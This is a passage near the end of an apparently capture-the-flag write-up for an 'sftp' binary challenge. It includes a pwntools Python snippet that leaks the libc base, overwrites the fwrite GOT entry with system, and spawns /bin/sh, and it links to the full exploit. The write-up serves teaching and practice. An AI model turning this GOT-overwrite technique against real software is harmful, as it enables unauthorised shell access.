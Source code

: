 So if fwrite() is now in fact system() and the argument passed to the call in writen is file->data we must create a file that contains the command that we want execute.

```python
libc_bin.address = u64(got[:8]) - libc_bin.symbols["fwrite"]
log.info("libc base address: 0x%x" % libc_bin.address)

put_file("cmd", "/bin/sh\x00")

target = p64(libc_bin.symbols["system"])
put_file("got", target)

p.sendline("get cmd") #system("/bin/sh")
```

And win!

![sftp_8](/img/sftp_writeup/sftp_8.png)

In the following link to a zip file you can find the sftp.c source code, the sftp binary, the full exploit, the libc binary and the header that must be imported in IDA.

Attachment: [https://drive.google.com/file/d/1O0-QFmp7KQ1ojANU5y75ouv6hFhm4QD0/view?usp=sharing](https://drive.google.com/file/d/1O0-QFmp7KQ1ojANU5y75ouv6hFhm4QD0/view?usp=sharing)

